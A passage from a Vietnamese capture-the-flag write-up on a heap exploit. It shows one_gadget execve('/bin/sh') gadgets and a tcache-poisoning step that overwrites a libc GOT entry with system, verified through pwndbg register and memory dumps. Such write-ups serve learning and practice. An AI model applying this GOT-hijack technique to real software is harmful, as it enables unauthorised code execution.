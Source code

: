 ```x86asm
```
Nên mình sẽ ghi đè got này tới one_gadget.
```c 
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```
Tất nhiên đoán trước hàm puts sẽ khó có các thanh ghi nào thoả mãn một one_gadget nên mình kiểm tra các thanh ghi trước khi jmp tới got.

Mình thử để tcachebin[0]=got-0x10 ghi đè got thành system rồi kiểm tra

```x86asm
 RAX  0x0
 RBX  0x55b98b4e3620 (__libc_csu_init) ◂— endbr64 
*RCX  0x7f77d944f0a8 (*ABS*@got.plt) —▸ 0x7f77d92b5290 (system) ◂— endbr64 
*RDX  0x7f77d93eb6d0 (__strlen_avx2) ◂— endbr64 
*RDI  0x55b98b4e41b8 ◂— '1. Create \n2. Delete \n3. Add value \nAction: '
*RSI  0x130
*R8   0x1c
 R9   0x0
 R10  0x7f77d93feac0 (_nl_C_LC_CTYPE_toupper+512) ◂— 0x100000000
 R11  0x246
*R12  0x55b98b4e41b8 ◂— '1. Create \n2. Delete \n3. Add value \nAction: '
 R13  0x7fffa224a120 ◂— 0x1
 R14  0x0
 R15  0x0
*RBP  0x7fffa224a030 ◂— 0x0
*RSP  0x7fffa2249fe8 —▸ 0x7f77d92e7434 (puts+20) ◂— mov r13, qword ptr [rip + 0x167b0d]
*RIP  0x7f77d92b5290 (system) ◂— endbr64 
────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────
 ► 0x7f77d92b5290 <system>          endbr64 
   0x7f77d92b5294 <system+4>        test   rdi, rdi
   0x7f77d92b5297 <system+7>        je     system+16                <system+16>

```
```x86asm
pwndbg> tele 0x7f77d944f098
00:0000│     0x7f77d944f098 (*ABS*@got.plt) —▸ 0x7f77d93e7950 (__memrchr_avx2) ◂— endbr64 
01:0008│     0x7f77d944f0a0 (__tunable_get_val@got.plt) ◂— 0x0
02:0010│ rcx 0x7f77d944f0a8 (*ABS*@got.plt) —▸ 0x7f77d92b5290 (system) ◂— endbr64 
03:0018│     0x7f77d944f0b0 (*ABS*@got.plt) —▸ 0x7f77d93eb0e0 (__strchr_avx2) ◂— endbr64 
04:0020│     0x7f77d944f0b8 (*ABS*@got.plt) —▸ 0x7f77d93e6960 (__strpbrk_sse42) ◂— endbr64 
05:0028│     0x7f77d944f0c0 (*ABS*@got.plt) —▸ 0x7f77d93e0890 (__wcscpy_ssse3) ◂— endbr64 
06:0030│     0x7f77d944f0c8 (*ABS*@got.plt) —▸ 0x7f77d93eead0 (__wmemset_avx2_unaligned) ◂— endbr64 
07:0038│     0x7f77d944f0d0 (*ABS*@got.plt) —▸ 0x7f77d93eead0 (__wmemset_avx2_unaligned) ◂— endbr64 
```
Để ý thanh `$rdx`, nó chính là giá trị got cũ trước khi bị ta ghi đè.
